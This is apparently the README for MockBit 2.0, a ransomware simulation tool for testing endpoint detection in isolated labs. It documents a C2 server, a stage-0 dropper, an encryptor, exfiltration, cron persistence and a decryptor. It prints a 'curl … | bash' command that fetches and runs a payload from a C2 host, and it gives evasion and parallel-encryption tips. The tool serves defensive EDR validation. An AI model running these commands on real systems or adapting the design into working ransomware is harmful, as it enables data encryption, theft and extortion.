 # MockBit 2.0

**Safe ransomware simulation for EDR validation**

> ⚠️ **Read first:** MockBit is a controlled, fully reversible lab tool. Use it *only* in isolated VMs or air‑gapped networks that you own. Never deploy it on production, shared, or third-party systems.

---

## Table of contents

1. [Overview](#overview)
2. [Quick start (5 minutes)](#quick-start-5-minutes)
3. [Repository structure](#repository-structure)
4. [Manual usage](#manual-usage)
5. [Customization tips](#customization-tips)
6. [Troubleshooting](#troubleshooting)
7. [License & contributions](#license--contributions)
8. [MITRE ATT&CK mapping](#mitre-attck-mapping)

---

## Overview

MockBit behaves like real ransomware (ATT&CK T1486) while keeping you in full control:

| Stage        | Realism                         | Safety net                               |
|--------------|---------------------------------|-------------------------------------------|
| Delivery     | `curl` / `wget` payload         | No exploits, no privilege escalation      |
| Encryption   | AES-256-CBC via OpenSSL         | Key logged → 100 % decryptable            |
| Exfiltration | File list + key fragment        | Only dummy data you create                |
| Persistence  | Optional cron job               | One-liner removal included                |
| Cleanup      | —                               | Built-in decryptor and uninstaller        |

---

## Quick start (5 minutes)

**Lab topology**

```
    +-----------+      +---------------+
    | Attacker  |----->| Victim VM     |
    | (C2 host) |      | (SentinelOne) |
    +-----------+      +---------------+
```

**One-command install (attacker – AlmaLinux 8.10)**

```bash
sudo dnf install -y git python3-pip openssl
git clone https://github.com/Deathcrusher/mockbit_2.0.git
cd mockbit_2.0
chmod +x setup.sh && sudo ./setup.sh
```

**Example output**

```
C2 running at http://192.168.1.100:8080
Payload URL for curl: http://192.168.1.100:8000/payload_downloader.sh
Test trigger: curl -s http://192.168.1.100:8000/payload_downloader.sh | bash
Victim run will populate /tmp/test_victim (200 items)
```

**Trigger on victim (non-root for maximum EDR visibility)**

```bash
curl -s http://192.168.1.100:8000/payload_downloader.sh | bash
```

Watch SentinelOne raise alerts, then decrypt when the run completes.

---

## Repository structure

```
mockbit_2.0/
├── setup.sh              # Installer & test-file generator
├── c2_server.py          # Flask C2 (beacon, exfil, key log)
├── payload_downloader.sh # Stage-0 dropper
├── ransomware.sh         # Stage-1 encryptor
├── decryptor.sh          # Stage-2 recovery
└── README.md             # This guide
```

> **Note:** `ransomware.sh` replaces the legacy `ransomware_core.sh` referenced in older docs.

---

## Manual usage

Skip `setup.sh` if you prefer to run individual stages.

```bash
# Encrypt only
./ransomware.sh /target/dir http://c2:8080

# Decrypt only
./decryptor.sh /target/dir "KEY" "IV"

# Stop the C2 server
pkill -f c2_server.py

# (Optional) clean up lab artefacts manually
#   - Remove generated cron jobs
#   - Delete /tmp/test_victim or other test directories
```

---

## Customization tips

- **Environment configuration:** update `.env` (or provide `ENV_FILE_PATH=/path/to/file`) to set `C2_URL`, `TARGET_DIR`, and the encrypted file suffix without editing scripts. Running `setup.sh` now renders these values directly into the hosted payload so remote victims inherit your configuration automatically, even when executing via `curl … | bash`.
- **Cipher suite:** change the `openssl enc -aes-256-*` invocation.
- **Evasion delays:** insert `sleep $((RANDOM % 10))` or similar pauses.
- **Parallelization:** leverage `xargs -P 8 -I {} …` for multi-threaded encryption.
- **C2 endpoint overrides:** export `C2_URL` inline (e.g., `C2_URL=http://192.168.1.5:8080 ./payload_downloader.sh`) for ephemeral tests.

---

## Troubleshooting

| Issue                | Resolution |
|----------------------|------------|
| Port 8080 blocked    | `sudo firewall-cmd --add-port=8080/tcp --permanent && sudo firewall-cmd --reload` |
| No SentinelOne alert | Run as **non-root** and ensure “Deep Visibility” + “Ransomware” policies are enabled. |
| Decrypt fails        | Use the key and IV from the **same run** (check the C2 `/exfil` endpoint or ransom note). |
| Python missing       | `sudo dnf install python3 python3-pip && pip3 install flask` |
| Flask install fails  | Use the pinned dependency (`flask==2.0.3`) included in `requirements.txt`; some offline mirrors do not host newer Flask builds yet. |

---

## License & contributions

- MIT License © 2025 Deathcrusher
- Pull requests welcome (e.g., Windows port, additional TTPs, educational EDR bypass research)

---

## MITRE ATT&CK mapping

- **T1566.002 – Initial Access:** `curl` / `wget` payload delivery
- **T1059.004 – Execution:** Unix shell
- **T1053.003 – Persistence:** Optional cron job
- **T1041 – Exfiltration:** HTTP POST to the C2 server
- **T1486 – Impact:** Data encrypted for impact
